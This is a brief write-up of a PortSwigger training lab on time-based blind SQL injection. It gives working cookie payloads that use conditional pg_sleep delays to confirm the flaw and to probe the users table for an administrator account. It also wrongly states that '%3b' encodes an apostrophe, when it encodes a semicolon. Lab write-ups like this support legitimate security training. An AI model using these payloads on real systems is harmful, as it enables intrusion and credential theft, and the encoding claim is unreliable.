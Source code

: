 # Lab: Blind SQL injection with time delays and information retrieval

## Lab's description

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

**End goal:**  log in as the `administrator` user.

## Solution

`%3b` for `'` and `pg_sleep(3)` delays for 3 seconds.

Modify your cookie to check for delay responding: `' %3bselect case when (1=1) then pg_sleep(5) else pg_sleep(0) end--`

We will see that it takes 5 seconds to load the website.

Now let check for username: `' %3bselect case when (username='administrator') then pg_sleep(5) else pg_sleep(0) end from users--`

**Resource:** [Lab: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-time-delays/sql-injection/blind/lab-time-delays-info-retrieval)
